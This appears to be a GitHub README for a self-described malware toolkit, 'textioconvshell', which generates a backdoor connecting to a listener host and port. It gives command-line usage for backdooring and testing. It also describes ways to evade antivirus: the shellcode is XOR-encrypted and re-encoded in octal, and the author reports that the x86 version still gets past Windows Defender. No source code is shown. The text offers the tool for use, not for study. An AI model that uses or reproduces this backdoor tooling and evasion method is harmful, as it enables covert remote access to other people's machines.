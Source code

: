 # forgotten scripts

This backdoor is an old draft that I decided to share.

In order to use my malware toolkit you have first to install the textioconv suit. Once it has been done, you can run two scripts.

for backdooring purposes :
```bash
textioconvshell -a <target arch> -h <host listener> -p <listen port> [opt][-v <varname> -k <xor key>]
```
for testing purposes : 
```bash
textioconvshell-test -a <target arch> [opt][-v <varname> -k <xor key>]
```

***note : the -k option is partially broken. Although it's possible to use a custom key the backdoor could not work.***

My [youtube video](https://youtu.be/t5cUatDkx08?si=AJwvPYQQS-ZyvWEn) ( in french ) should gives you a light clue how to use my malware toolkit. 

Of course, this draft is just for testing purpose. If you to plan to use it for a custom projet, you can still use my backdoor template but you will have to run your own rat. 

09/06/2025 : 
Apparently my backdoor has been partially patched. Currently, the x64 arch doesn't work at all on my side. Sometimes, Windows Defender detects it automatically or the backdoor doesn't run. 
All looks fine with the x86 arch. 
Now, the shell code is first encrypted with the XOR algorithm, encoded with ASCII and re-encoded in octal in order to make compilation easier. 

